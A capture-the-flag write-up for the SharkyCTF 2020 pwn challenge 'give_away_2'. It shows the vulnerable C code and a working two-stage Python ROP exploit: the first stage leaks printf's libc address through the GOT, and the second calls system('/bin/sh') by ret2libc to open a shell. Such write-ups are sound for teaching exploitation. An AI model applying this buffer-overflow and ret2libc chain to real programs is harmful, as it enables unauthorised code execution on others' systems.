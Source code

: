 
## give_away_2
### Description

> Make good use of this gracious give away.
>
> Creator: Hackhim


### Attachment

[give_away_2](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/SharkyCTF-2020/pwn/give_away_2/give_away_2)
, 
[libc.so.6](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/SharkyCTF-2020/pwn/give_away_2/libc.so.6)

### Analysis

the last warm up task

```c
int main(int argc, const char **argv, const char **envp){
  init_buffering(&argc, argv, envp);
  printf("Give away: %p\n", main);
  vuln();
  return 0;
}
char *vuln(){
  char s; // [rsp+0h] [rbp-20h]
  return fgets(&s, 128, stdin);
}
```

> buffer overflow, no canary, address of `main` was leaked

### Solution

#### leak libc

re-call `printf` to print address of got entry of `printf` 

```nasm
0x00000880      b800000000     mov eax, 0             # call here
0x00000885      e806feffff     call sym.imp.printf 
0x0000088a      b800000000     mov eax, 0
0x0000088f      e8adffffff     call sym.vuln
0x00000894      b800000000     mov eax, 0
0x00000899      5d             pop rbp
0x0000089a      c3             ret
```

after leak `printf` in libc, `vuln` function would be called again

```python
# leak
ru('Give away: ')
main = eval(rc(14))
info_addr('main',main)
text = main - 0x000864
info_addr('text',text)
printf = text + 0x880
printf_got = text + 0x200fc0
bssbase = elf.bss()+0x800 + text

# gadget
prdi = 0x0000000000000903 + text # pop rdi ; ret
prsi_r15 = 0x0000000000000901 + text

# rop1
offset = 40-8
payload = 'A'*offset
payload += p64(bssbase)
payload += p64(prdi) + p64(printf_got) + p64(printf)

rc()
sl(payload)
printf_libc = uu64(rc(6))
info_addr('printf_libc',printf_libc)
libcbase = printf_libc - libc.sym['printf']
info_addr('libcbase',libcbase)
system = libcbase + libc.sym['system']
info_addr('system',system)
binsh  = libcbase + libc.search('/bin/sh').next()
info_addr('binsh',binsh)
```

#### ret2libc

```python
# rop2
offset = 40-8
pl2 = 'A'*offset
pl2 += p64(bssbase)
pl2 += p64(prdi+1) + p64(prdi) + p64(binsh) + p64(system)
sl(pl2)
```


### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/SharkyCTF-2020/pwn/give_away_2) 


